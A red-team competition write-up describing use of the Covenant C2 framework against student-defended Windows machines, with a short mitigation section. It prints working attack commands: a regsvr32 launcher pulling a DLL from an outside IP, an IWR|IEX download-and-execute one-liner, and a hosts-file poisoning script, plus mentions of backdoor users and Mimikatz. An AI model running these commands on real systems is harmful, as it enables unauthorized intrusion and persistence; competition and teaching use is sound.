# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 




### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

<div className="Image__Medium">
  
  <h4 >Docker commands to run to covenant </h4>
</div>


In reality we would want to tack on -d when composing Covenant
to background it. 
Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

<div className="Image__Medium">
  
  <h4 >Using regsvr32 as our launcher </h4>
</div>

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.



Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.



To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.



This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.



At the start of the competition these are just some of the beacons.



### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.



However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.



Upon noticing this you followed the http stream you would notice this.



### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
